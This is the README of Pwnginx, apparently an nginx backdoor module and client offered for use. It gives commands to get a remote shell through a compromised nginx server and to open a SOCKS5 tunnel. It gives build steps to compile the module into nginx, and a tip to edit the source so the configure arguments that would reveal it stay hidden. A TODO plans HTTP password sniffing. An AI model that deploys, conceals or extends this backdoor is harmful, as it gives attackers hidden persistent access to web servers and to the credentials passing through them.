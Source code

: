 #[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get a shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [socks5ip] [socks5port]


###INSTALL:

* Compile the client:

    cd client;make

* Recompile the nginx:

    cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module

* Edit source to hidden configure arguments:

    grep 'configure arguments' * -R -n

###TODO:

* Pack communication traffic into HTTP protocol

* http password sniff
